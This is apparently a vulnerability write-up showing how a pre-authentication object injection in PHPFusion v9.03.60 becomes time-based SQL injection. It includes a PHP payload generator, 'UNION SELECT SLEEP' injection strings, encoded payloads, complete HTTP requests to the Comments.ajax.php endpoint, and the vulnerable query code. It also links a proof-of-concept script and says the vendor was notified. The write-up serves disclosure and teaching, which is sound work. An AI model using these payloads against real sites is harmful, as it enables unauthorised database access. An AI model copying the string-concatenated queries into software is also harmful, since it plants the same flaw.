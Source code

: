 ```yaml
---
permalink: /c111
---
```

{% raw %}
# C111: PHPFusion v9.03.60, PHP Object Injection to SQL injection (pre-auth)

In the previous chapter, we highlighted the presence of a unauthenticated POI. After a quick analysis of the actions carried out on the created object, we are now able to transform this POI into a SQL injection.

## How?

In order to demonstrate the SQLi, we will use the code below to generate a valid payload allowing us to complete the exploit.

File: <span style="color:red">gen.php</span>
```php
<?php

$ar["comment_item_id"] = "INJECT_HERE_1";
$ar["comment_item_type"] = "INJECT_HERE_2";
var_dump($ar);

$payload = urlencode(base64_encode(serialize($ar)));
var_dump($payload);

?>
```

If we modify one of the two injection points presented above and use the payload generated within the request from the previous chapter, we realize that the vulnerability is triggered. 

For example, replace `"INJECT_HERE_2"` by `"' UNION SELECT SLEEP(0)-- - '"`:

File: <span style="color:red">gen.php</span>
```php
<?php

$ar["comment_item_id"] = "INJECT_HERE_1";
$ar["comment_item_type"] = "' UNION SELECT SLEEP(0)-- - '";
var_dump($ar);

$payload = urlencode(base64_encode(serialize($ar)));
var_dump($payload);

?>
```

Then generate our payload:

```
▶ php gen.php
array(2) {
  ["comment_item_id"]=>
  string(13) "INJECT_HERE_1"
  ["comment_item_type"]=>
  string(29) "' UNION SELECT SLEEP(0)-- - '"
}
string(156) "YToyOntzOjE1OiJjb21tZW50X2l0ZW1faWQiO3M6MTM6IklOSkVDVF9IRVJFXzEiO3M6MTc6ImNvbW1lbnRfaXRlbV90eXBlIjtzOjI5OiInIFVOSU9OIFNFTEVDVCBTTEVFUCgwKS0tIC0gJyI7fQ%3D%3D"
```

And use it as our payload in the request:

Request
```
POST /projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 172

comment_options=YToyOntzOjE1OiJjb21tZW50X2l0ZW1faWQiO3M6MTM6IklOSkVDVF9IRVJFXzEiO3M6MTc6ImNvbW1lbnRfaXRlbV90eXBlIjtzOjI5OiInIFVOSU9OIFNFTEVDVCBTTEVFUCgwKS0tIC0gJyI7fQ%3D%3D
```

We then notice that the server takes about 120 milliseconds to respond. 

![alt text](../captures/c7_0.png "Figure 1: Request and server response - part 1")

Now substitute `"INJECT_HERE_2"` with `"' UNION SELECT SLEEP(5)-- - '"`:

File: <span style="color:red">gen.php</span>
```php
<?php

$ar["comment_item_id"] = "INJECT_HERE_1";
$ar["comment_item_type"] = "' UNION SELECT SLEEP(5)-- - '";
var_dump($ar);

$payload = urlencode(base64_encode(serialize($ar)));
var_dump($payload);

?>
```

It gives us the following payload:

```
▶ php gen.php
array(2) {
  ["comment_item_id"]=>
  string(13) "INJECT_HERE_1"
  ["comment_item_type"]=>
  string(29) "' UNION SELECT SLEEP(5)-- - '"
}
string(156) "YToyOntzOjE1OiJjb21tZW50X2l0ZW1faWQiO3M6MTM6IklOSkVDVF9IRVJFXzEiO3M6MTc6ImNvbW1lbnRfaXRlbV90eXBlIjtzOjI5OiInIFVOSU9OIFNFTEVDVCBTTEVFUCg1KS0tIC0gJyI7fQ%3D%3D"
```

That we use in the request below:

Request:
```
POST /projects/php-fusion/includes/classes/PHPFusion/Feedback/Comments.ajax.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 172

comment_options=YToyOntzOjE1OiJjb21tZW50X2l0ZW1faWQiO3M6MTM6IklOSkVDVF9IRVJFXzEiO3M6MTc6ImNvbW1lbnRfaXRlbV90eXBlIjtzOjI5OiInIFVOSU9OIFNFTEVDVCBTTEVFUCg1KS0tIC0gJyI7fQ%3D%3D
```

We can see that the server puts at about 10,000 milliseconds to respond.

![alt text](../captures/c7_1.png "Figure 2: Request and server response - part 2")

## Why?

In order to understand why the POI allows us to perform a SQL injection, let's dive into the code the function `getInstance()`.

File: <span style="color:red">\<ROOT\>/includes/classes/PHPFusion/Feedback/Comments.inc</span>
```php
public static function getInstance(array $params = [], $key = 'Default') {

    if (dbcount('(settings_name)', DB_SETTINGS, "settings_name=:jq", [':jq' => 'comments_jquery'])) {
        dbquery("DELETE FROM ".DB_SETTINGS." WHERE settings_name=:jq", [':jq' => 'comments_jquery']);
    }

    if (!isset(self::$instances[$key])) {
        self::$instances[$key] = new static();
        self::$key = $key;
        $params['comment_key'] = $key;
        self::$params = $params + self::$params;
        self::setInstance($key);
    }

    return self::$instances[$key];
}
```

As we can see above, the function takes as first parameter, an array (array that we control thanks to the POI). The property `$instances` of the `Comments` object not being set, instantiations are performed to finally call the function `setInstance()`.

File: <span style="color:red">\<ROOT\>/includes/classes/PHPFusion/Feedback/Comments.inc</span>
```php
private static function setInstance($key) {
    $obj = self::getInstance([], $key);
    $obj->setParams(self::$params);
    $obj->setEmptyCommentData();
    $obj->checkPermissions();
    $obj->execute_CommentUpdate();
    $obj->get_Comments();
}
```

Function `setInstance()` will actually call `checkPermissions()`, which is the function that allows us to inject SQL sequences using `$this->getParams('comment_item_id')` and `$this->getParams('comment_item_type')`.

File: <span style="color:red">\<ROOT\>/includes/classes/PHPFusion/Feedback/Comments.inc</span>
```php
private function checkPermissions() {
    $my_id = fusion_get_userdata('user_id');
    if (dbcount("(rating_id)", DB_RATINGS, "
        rating_user='".$my_id."'
        AND rating_item_id='".$this->getParams('comment_item_id')."'
        AND rating_type='".$this->getParams('comment_item_type')."'
        "
    )
    ) {
        $this->replaceParam('comment_allow_vote', FALSE); // allow ratings
    }
    if (dbcount("(comment_id)", DB_COMMENTS, "
        comment_name='".$my_id."' AND comment_cat='0'
        AND comment_item_id='".$this->getParams('comment_item_id')."'
        AND comment_type='".$this->getParams('comment_item_type')."'
        "
        )
        && $this->getParams('comment_once')
    ) {
        $this->replaceParam('comment_allow_post', FALSE); // allow post
    }
}
```

The SQL injection is therefore a Time Based SQL injection for which you can consult the POC. Since the call to the `dbcount()` function is made twice, it is necessary to note that the delay established using the `SLEEP(n)` function will be multiplied by two.

The author of the application has been informed of the vulnerability.

## Ref

- [POC](https://github.com/therealcoiffeur/therealcoiffeur.github.io/blob/master/tools/PHP-Fusion/poi_to_sqli_9.03.50.py)
- [https://packetstormsecurity.com/files/158077/PHP-Fusion-9.03.60-PHP-Object-Injection-SQL-Injection.html](https://packetstormsecurity.com/files/158077/PHP-Fusion-9.03.60-PHP-Object-Injection-SQL-Injection.html)
{% endraw %}